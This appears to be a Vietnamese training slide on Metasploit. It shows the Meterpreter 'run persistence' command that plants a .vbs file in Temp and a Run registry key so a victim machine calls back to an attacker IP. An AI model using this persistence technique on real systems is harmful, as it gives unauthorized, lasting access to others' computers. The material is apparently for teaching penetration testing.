

#
III. Sử dụng Metasploit Framework
Thiết lập persistence để cài vĩnh viễn và tự động kích hoạt trên máy victim:
run persistence -S -i 60 -p [cổng] -r [ip]
Khi đó payload sẽ tạo ra file .vbs mặc định được lưu vào trong đường dẫn C:\Users\tên_người_dùng\AppData\Local\Temp và chèn thuộc tính autorun vào registry HKCU(hay HKLM)\Software\Microsoft\Windows\CurrentVersion\Run\ .

26